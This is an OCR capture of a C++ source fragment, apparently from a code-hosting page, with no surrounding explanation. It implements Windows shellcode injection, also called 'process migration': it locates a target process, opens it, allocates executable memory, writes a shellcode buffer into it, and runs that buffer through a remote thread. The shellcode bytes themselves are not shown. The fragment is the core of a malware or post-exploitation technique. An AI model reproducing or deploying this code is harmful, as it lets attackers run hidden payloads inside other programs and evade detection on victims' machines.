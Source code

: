 ```cpp
    // Find the target process ID
    DWORD processId = FindProcessId(targetProcessName);
    if (processId == 0) {
        std::cerr << "Target process not found.\n";
        return 1;
    }

    // Open the target process
    HANDLE hProcess = OpenProcess(PROCESS_VM_OPERATION | PROCESS_VM_WRITE | PROCESS_CREATE_THREAD, FALSE, processId);
    if (!hProcess) {
        std::cerr << "Failed to open target process.\n";
        return 1;
    }

    // Allocate memory in the target process
    LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!pRemoteCode) {
        std::cerr << "Failed to allocate memory in target process.\n";
        CloseHandle(hProcess);
        return 1;
    }

    // Write shellcode to the target process
    if (!WriteProcessMemory(hProcess, pRemoteCode, shellcode, sizeof(shellcode), NULL)) {
        std::cerr << "Failed to write shellcode to target process.\n";
        VirtualFreeEx(hProcess, pRemoteCode, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Create a remote thread in the target process
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)pRemoteCode, NULL, 0, NULL);
    if (!hThread) {
        std::cerr << "Failed to create remote thread in target process.\n";
        VirtualFreeEx(hProcess, pRemoteCode, 0, MEM_RELEASE);
        CloseHandle(hProcess);
        return 1;
    }

    // Wait for the remote thread to finish (optional)
    WaitForSingleObject(hThread, INFINITE);

    // Clean up
    CloseHandle(hThread);
    VirtualFreeEx(hProcess, pRemoteCode, 0, MEM_RELEASE);
    CloseHandle(hProcess);

    std::cout << "Process migration complete.\n";
    return 0;
}
```
